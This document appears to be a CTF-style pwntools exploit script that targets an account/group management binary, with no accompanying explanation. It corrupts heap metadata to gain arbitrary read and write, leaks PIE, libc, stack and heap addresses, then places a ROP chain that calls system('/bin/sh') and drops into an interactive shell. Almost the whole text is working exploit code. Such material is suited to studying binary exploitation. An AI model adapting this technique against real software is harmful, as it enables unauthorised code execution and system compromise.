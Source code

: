 ```python
add_acc(1, b'A'*0x18)           # 3
add_acc(1, b'A'*0x6)            # 4
add_acc(1, b'A'*0x17)           # 5

edit_acc(3, 0, b'A'*0x17)
add_acc_in_grp(0, 5)
edit_acc(4, 0, b'A'*0x6 + b'\0\1\1')
remove_acc(4)
remove_acc_in_grp(0, 5)
add_acc(1, b'A'*0x17)           # 4
add_acc_in_grp(0, 5)
edit_acc(4, 1, b'\x01'*0xf)
edit_acc(4, 1, b'\x01'*8 + p64(maps + 0x10))

p.recvuntil(b'\x01'*8)
p.recvuntil(b'\x01'*8)
p.recv(7)
print_all(0)
p.recv(6)
pie = u64(p.recv(6) + b'\0\0') - 0x6010
log.info('[PIE] %#x'%pie)

edit_acc(4, 1, b'\x01'*8 + p64(pie + 0x5f70))
print_all(0)
p.recvuntil(b'\x01'*8)
p.recv(13)
libc = u64(p.recv(6) + b'\0\0') - 0x19ecb0
log.info('[GLIBC] %#x'%libc)

prdi = libc + 0x16da6b
system = libc + 0x50d70
binsh = libc + 0x1d8678

edit_acc(4, 0, b'\0' + b'\x01'*7 + p64(libc + 0x2221ff))
print_all(0)
stack = u64(p.recvuntil(b'\x7f')[-6:] + b'\0\0') - 0x250
log.info('[STACK] %#x'%stack)

edit_acc(4, 0, b'\x01'*8 + p64(pie + 0x6150))
print_all(0)
p.recvuntil(b'\x01'*8)
p.recv(13)
heap = u64(p.recv(6) + b'\0\0') - 0x2a0
log.info('[HEAP] %#x'%heap)

edit_acc(4, 0, b'\x01'*8 + p64(heap + 0x2f4))
edit_acc(5, 1, b'\xf0')
edit_acc(4, 0, b'\x01'*8 + p64(heap + 0x2f8))
edit_acc(5, 1, p64(stack -1))
edit_acc(4, 0, b'\x01'*8 + p64(heap + 0x2f0))
edit_acc(5, 1, b'\x02')
pause()
pay = b''
pay += b'\0' + p64(prdi+1) + p64(prdi) + p64(binsh) + p64(system)
pay = pay.ljust(0xee, b'A')
add_acc(0, pay)

p.interactive()
```
